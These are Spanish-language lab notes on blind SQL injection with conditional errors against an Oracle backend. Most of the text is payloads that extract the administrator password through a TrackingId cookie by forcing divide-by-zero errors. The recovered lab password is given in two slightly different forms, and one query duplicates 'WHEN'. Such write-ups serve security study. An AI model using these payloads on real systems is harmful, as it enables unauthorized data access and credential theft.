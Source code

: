 # 12 Lab: Blind SQL injection with conditional errors

```jsx
';
''; //Verificamos que reacciona solo con un ' (error de sintaxis)
/// EXISTE TABLA USERS Y fila administrator
'||(SELECT '' FROM dual)||'
'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
// De esta manera forzaremos un error con una query real
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

/// Obtener longitud de la clave, obtenemos que tiene 20 caracteres
'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
/// Obtener CADA CARACTER
'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
// Probamos con Intruder
'||(SELECT CASE WHEN SUBSTR(password,§1§,1)='§A§' THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
son 20 caracteres, estos pueden ser minuscular y caracteres alfanumericos

administrator
zc83du733ks81egn2kii
```

![Untitled](12%20Lab%20Blind%20SQL%20injection%20with%20conditional%20errors%2017efab5460ec818387a4e5feae9053d2/Untitled.png)

![Untitled](12%20Lab%20Blind%20SQL%20injection%20with%20conditional%20errors%2017efab5460ec818387a4e5feae9053d2/Untitled%201.png)

![Untitled](12%20Lab%20Blind%20SQL%20injection%20with%20conditional%20errors%2017efab5460ec818387a4e5feae9053d2/Untitled%202.png)

![Untitled](12%20Lab%20Blind%20SQL%20injection%20with%20conditional%20errors%2017efab5460ec818387a4e5feae9053d2/Untitled%203.png)

![Untitled](12%20Lab%20Blind%20SQL%20injection%20with%20conditional%20errors%2017efab5460ec818387a4e5feae9053d2/Untitled%204.png)

Esto demuestra que puede desencadenar un error condicionalmente a la veracidad de una condición específica. La declaración CASE prueba una condición y la evalúa como una expresión si la condición es verdadera y otra expresión si la condición es falsa. La primera expresión contiene una división por cero, lo que provoca un error. En este caso, las dos cargas útiles prueban las condiciones 1=1 y 1=2, y se recibe un error cuando la condición es verdadera.

![Untitled](12%20Lab%20Blind%20SQL%20injection%20with%20conditional%20errors%2017efab5460ec818387a4e5feae9053d2/Untitled%205.png)

![Untitled](12%20Lab%20Blind%20SQL%20injection%20with%20conditional%20errors%2017efab5460ec818387a4e5feae9053d2/Untitled%206.png)

![Untitled](12%20Lab%20Blind%20SQL%20injection%20with%20conditional%20errors%2017efab5460ec818387a4e5feae9053d2/Untitled%207.png)

![Untitled](12%20Lab%20Blind%20SQL%20injection%20with%20conditional%20errors%2017efab5460ec818387a4e5feae9053d2/Untitled%208.png)

Recordemos que nos mostrará el error de Internal Server Error, solo cuando haya un error en la query.

Por eso usaremos un condicional anidado :

```jsx
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
// Query
SELECT 
    CASE 
        WHEN (1=1) THEN TO_CHAR(1/0) 
        ELSE '' 
    END 
FROM users WHERE username='administrator';
```

WHEN (1=1) THEN TO_CHAR(1/0)  <Es un error, puesto que 1/0 será un error en SQL>

POR ESO MOSTRARÁ EN MENSAJE DE ERROR, SI EXISTE LA OTRA CONDICIONAL: ***FROM users WHERE username='administrator'***

![Untitled](12%20Lab%20Blind%20SQL%20injection%20with%20conditional%20errors%2017efab5460ec818387a4e5feae9053d2/Untitled%209.png)

![Untitled](12%20Lab%20Blind%20SQL%20injection%20with%20conditional%20errors%2017efab5460ec818387a4e5feae9053d2/Untitled%2010.png)

```sql
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'

SELECT 
	CASE 
		WHEN LENGTH(password)>1 THEN to_char(1/0) 
		ELSE '' 
	END 
FROM users WHERE username='administrator'

SELECT 
	CASE 
		WHEN <CONDICIÓN A CONSULTAR> THEN <ARTIFICIO QUE SIEMPRE DARA ERROR> 
		ELSE '' 
	END 
FROM users WHERE username='administrator'

SI LA CONDICIÓN A CONSULTAR, CUMPLE, ENTONCES NOS BOTARÁ UN ERROR, PUESTO QUE ES UNA CONSULTA A CIEGAS
```

![Untitled](12%20Lab%20Blind%20SQL%20injection%20with%20conditional%20errors%2017efab5460ec818387a4e5feae9053d2/Untitled%2011.png)

![Untitled](12%20Lab%20Blind%20SQL%20injection%20with%20conditional%20errors%2017efab5460ec818387a4e5feae9053d2/Untitled%2012.png)

SUBSTR(password,1,1)='a’

```sql
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'

SELECT 
	CASE 
		WHEN WHEN SUBSTR(password,$1$,1)='$a$' THEN to_char(1/0) 
		ELSE '' 
	END 
FROM users WHERE username='administrator'

```

![Untitled](12%20Lab%20Blind%20SQL%20injection%20with%20conditional%20errors%2017efab5460ec818387a4e5feae9053d2/Untitled%2013.png)

zc83du733ks813egn2kii

fgdfgdfgd